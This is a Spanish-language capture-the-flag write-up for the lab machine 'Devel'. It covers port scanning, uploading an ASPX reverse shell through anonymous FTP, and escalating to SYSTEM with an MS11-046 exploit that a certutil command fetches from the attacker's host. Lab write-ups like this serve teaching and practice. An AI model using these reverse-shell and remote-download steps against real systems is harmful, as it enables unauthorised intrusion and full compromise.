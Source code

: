 ```yaml
---
title: Devel
published: true
categories: [Windows,Easy]
tags: [Windows explotation, FTP file upload, MS11-046]

image:
  path: https://user-images.githubusercontent.com/55555187/183245027-881f68b7-d9c0-410b-a907-4a6766faec20.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
 
---
```


Devel es una <font color="#98E256">máquina Easy</font> de temática <font color="#2874A6">Windows</font> en la que se explota una subida de archivos a FTP mediante sesión anónima y la vulnerabilidad MS11-046 sobre afd.sys.

## Reconocimiento y explotación

```bash
nmap -p- --open -sS --min-rate 10000 -Pn -n -vvv -oG portScan 10.10.10.5
```

![image](https://user-images.githubusercontent.com/55555187/183240877-8f5aef0e-cbf0-45e9-bc6c-9aad167d5b92.png)

```bash
nmap -sCV -p21,80 -oN portSV 10.10.10.5
```

![image](https://user-images.githubusercontent.com/55555187/183245183-94f18c5c-7b7c-45ef-9f30-ecce24c34751.png)

Lo primero que me llama la atención es que el servicio *FTP* permite login anónimo, me conecto para ver si hay algún archivo que pueda resultar de utilidad.

<img src="https://user-images.githubusercontent.com/55555187/183241047-4c64d94a-11f1-496a-814c-2efcee50ffc7.png" title="" alt="image" width="595">

Compruebo el contenido de ambos ficheros y no parece haber nada interesante, también compruebo los Metadata con *exiftool* por si hubiese un usuario que pueda ser de utilidad pero no es el caso tampoco. 

Realizo *Fuzzing* para buscar directorios y  subdominios válidos pero no encuentro nada.

En este punto lo que se me ocurre es comprobar si tengo permisos de escritura en el servicio *FTP* y si puedo acceder a los archivos a través de la web.

Intento subir un archivo *test.txt* usando put:

<img src="https://user-images.githubusercontent.com/55555187/183242329-e10da5dc-54c8-4fd5-80ee-f5727e4285a5.png" title="" alt="image" width="574">

Compruebo que se refleja en la web:

![image](https://user-images.githubusercontent.com/55555187/183242350-0b5690fc-0ef0-4dc2-9f3e-b1b5985a277b.png)

Pude intuir esto debido a que los archivos que originalmente estaban en el servicio *FTP* eran el código fuente de la web del puerto 80 y la imagen que se muestra.

Una vez que sé que puedo subir archivos y verlos reflejados en la web, subo una reverse shell en formato .aspx [GitHub - borjmz/aspx-reverse-shell: Aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell) al servicio *FTP* y accedo a la ruta *http://10.10.10.5/nombre rev shell.aspx* obteniendo una conexión:

![image](https://user-images.githubusercontent.com/55555187/183242640-911e42f3-64d4-4918-b962-b2c13a196569.png)

## Escalada de privilegios

Mirando los privilegios del usuario mediante *whoami /all* descubro que tiene el permiso *SeImpersonatePrivilege* por lo que quizás podría ser vulnerable a *RottenPotato* o *JuicyPotato*. Hago un intento con Juicy pero resulta que el OS es demasiado viejo para ejecutar el .exe.

Miro las especificaciones del sistema:

<img src="https://user-images.githubusercontent.com/55555187/183244241-15523594-3023-4d3f-a36b-767382d6511b.png" title="" alt="image" width="590">

Busco exploits asociados a *Windows 7 6.1.7600* y encuentro que es vulnerable a la vulnerabilidad MS11-046 la cual consiste en que la función *afd.sys* no valida los datos enviados desde el modo usuario al modo kernel permitiendo la ejecución de comandos en el modo kernel.

Encuentro un repositorio de Github con un montón de exploits para Windows, entre los que se encuentra uno para explotar la vulnerabilidad *MS11-046*

[WindowsExploits: Windows exploits, mostly precompiled.](https://github.com/abatchy17/WindowsExploits)

Descargo el *.exe*, lo envio a la máquina víctima a través de *certutil* y lo ejecuto logrando una shell como **NT AUTHORITY\SYSTEM**

```powershell
certutil.exe -urlcache -f http://10.10.14.6/MS11-046.exe ms11-046.exe
```

![image](https://user-images.githubusercontent.com/55555187/183244619-cef28930-365a-4c4b-bac6-122fc20842cf.png)
